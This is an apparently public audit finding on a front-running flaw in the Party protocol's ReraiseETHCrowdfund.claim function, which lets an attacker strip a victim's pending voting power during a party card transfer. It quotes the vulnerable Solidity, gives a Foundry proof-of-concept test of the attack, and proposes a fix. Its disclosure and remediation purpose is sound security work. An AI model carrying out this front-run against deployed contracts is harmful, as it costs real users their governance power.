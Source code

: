## Tags

- bug
- 3 (High Risk)
- satisfactory
- selected for report
- sponsor confirmed
- edited-by-warden
- H-05

# [ReraiseETHCrowdfund.sol: party card transfer can be front-run by claiming pending voting power which results in a loss of the voting power](https://github.com/code-423n4/2023-04-party-findings/issues/12) 

# Lines of code

https://github.com/code-423n4/2023-04-party/blob/440aafacb0f15d037594cebc85fd471729bcb6d9/contracts/crowdfund/ReraiseETHCrowdfund.sol#L251-L303


# Vulnerability details

## Impact
In this report I show how an attacker can abuse the fact that anyone can call [`ReraiseETHCrowdfund.claim`](https://github.com/code-423n4/2023-04-party/blob/440aafacb0f15d037594cebc85fd471729bcb6d9/contracts/crowdfund/ReraiseETHCrowdfund.sol#L251-L303) for any user and add voting power to an existing party card.  

The result can be a griefing attack whereby the victim loses voting power. In some cases the attacker can take advantage himself.  

In short this is what needs to happen:  
1. The victim sends a transaction to transfer one of his party cards
2. The transaction is front-run and pending voting power of the victim from the `ReraiseETHCrowdfund` contract is claimed to this party card that is transferred
3. The victim thereby loses the pending voting power

The fact that any user is at risk that has pending voting power and transfers a party card and that voting power is arguably the most important asset in the protocol makes me estimate this to be "High" severity.  

## Proof of Concept
We start by observing that when the `ReraiseETHCrowdfund` is won, any user can call `ReraiseETHCrowdfund.claim` for any other user and either mint a new party card to him or add the pending voting power to an existing party card:  

[Link](https://github.com/code-423n4/2023-04-party/blob/440aafacb0f15d037594cebc85fd471729bcb6d9/contracts/crowdfund/ReraiseETHCrowdfund.sol#L251-L303)  
```solidity
/// @notice Claim a party card for a contributor if the crowdfund won. Can be called
///         to claim for self or on another's behalf.
/// @param tokenId The ID of the party card to add voting power to. If 0, a
///                new card will be minted.
/// @param contributor The contributor to claim for.
function claim(uint256 tokenId, address contributor) public {
    // Check crowdfund lifecycle.
    {
        CrowdfundLifecycle lc = getCrowdfundLifecycle();
        if (lc != CrowdfundLifecycle.Finalized) {
            revert WrongLifecycleError(lc);
        }
    }


    uint96 votingPower = pendingVotingPower[contributor];


    if (votingPower == 0) return;


    {
        uint96 contribution = (votingPower * 1e4) / exchangeRateBps;
        uint96 maxContribution_ = maxContribution;
        // Check that the contribution equivalent of total pending voting
        // power is not above the max contribution range. This can happen
        // for contributors who contributed multiple times In this case, the
        // `claimMultiple` function should be called instead. This is done
        // so parties may use the minimum and maximum contribution values to
        // limit the voting power of each card (e.g.  a party desiring a "1
        // card = 1 vote"-like governance system where each card has equal
        // voting power).
        if (contribution > maxContribution_) {
            revert AboveMaximumContributionsError(contribution, maxContribution_);
        }
    }


    // Burn the crowdfund NFT.
    _burn(contributor);


    delete pendingVotingPower[contributor];


    if (tokenId == 0) {
        // Mint contributor a new party card.
        tokenId = party.mint(contributor, votingPower, delegationsByContributor[contributor]);
    } else if (disableContributingForExistingCard) {
        revert ContributingForExistingCardDisabledError();
    } else if (party.ownerOf(tokenId) == contributor) {
        // Increase voting power of contributor's existing party card.
        party.addVotingPower(tokenId, votingPower);
    } else {
        revert NotOwnerError();
    }


    emit Claimed(contributor, tokenId, votingPower);
}
```

Note that the caller can specify any `contributor` and can add the pending votes to an existing party card if `!disableContributingForExistingCard && party.ownerOf(tokenId) == contributor`.  

So if User A has pending voting power and transfers one of his party cards to User B, then User C might front-run this transfer and claim the pending voting power to the party card that is transferred.  

If User B performs this attack it is not a griefing attack since User B benefits from it.  

Note that at the time of sending the transfer transaction the `ReraiseETHCrowdfund` does not have to be won already. The transaction that does the front-running might contribute to the crowdfund such that it is won and then claim the pending voting power.  

Add the following test to the `ReraiseETHCrowdfund.t.sol` test file. It shows how an attacker would perform such an attack:  

```solidity
function test_FrontRunTransfer() public {
    ReraiseETHCrowdfund crowdfund = _createCrowdfund({
        initialContribution: 0,
        initialContributor: payable(address(0)),
        initialDelegate: address(0),
        minContributions: 0,
        maxContributions: type(uint96).max,
        disableContributingForExistingCard: false,
        minTotalContributions: 2 ether,
        maxTotalContributions: 3 ether,
        duration: 7 days,
        fundingSplitBps: 0,
        fundingSplitRecipient: payable(address(0))
    });

    address attacker = _randomAddress();
    address victim = _randomAddress();
    vm.deal(victim, 2.5 ether);
    vm.deal(attacker, 0.5 ether);

    // @audit-info the victim owns a party card
    vm.prank(address(party));
    party.addAuthority(address(this));
    party.increaseTotalVotingPower(1 ether);
    uint256 victimTokenId = party.mint(victim, 1 ether, address(0));


    vm.startPrank(victim);
    crowdfund.contribute{ value: 2.5 ether }(victim, "");
    vm.stopPrank();

    /* @audit-info
    The victim wants to transfer the party card, say to the attacker, and the attacker
    front-runs this by completing the crowdfund and claiming the victim's pending voting
    power to the existing party card
    */

    vm.startPrank(attacker);
    crowdfund.contribute{ value: 0.5 ether }(attacker, "");
    crowdfund.claim(victimTokenId,victim);
    vm.stopPrank();

    /* @audit-info
    when the victim's transfer is executed, he transfers also all of the voting power
    that was previously his pending voting power (effectively losing it)
    */
    vm.prank(victim);
    party.tranferFrom(victim,attacker,victimTokenId);
}
```

So when there is an ongoing crowdfund it is never safe to transfer one's party card. It can always result in a complete loss of the pending voting power.  

## Tools Used
VSCode

## Recommended Mitigation Steps
In the `ReraiseETHCrowdfund.claim` function it should not be possible to add the pending voting power to an existing party card. It is possible though to allow it for the `contributor` himself but not for any user.  

```diff
diff --git a/contracts/crowdfund/ReraiseETHCrowdfund.sol b/contracts/crowdfund/ReraiseETHCrowdfund.sol
index 580623d..cb560e1 100644
--- a/contracts/crowdfund/ReraiseETHCrowdfund.sol
+++ b/contracts/crowdfund/ReraiseETHCrowdfund.sol
@@ -292,7 +292,7 @@ contract ReraiseETHCrowdfund is ETHCrowdfundBase, CrowdfundNFT {
             tokenId = party.mint(contributor, votingPower, delegationsByContributor[contributor]);
         } else if (disableContributingForExistingCard) {
             revert ContributingForExistingCardDisabledError();
-        } else if (party.ownerOf(tokenId) == contributor) {
+        } else if (party.ownerOf(tokenId) == contributor && contributor == msg.sender) {
             // Increase voting power of contributor's existing party card.
             party.addVotingPower(tokenId, votingPower);
         } else {
```
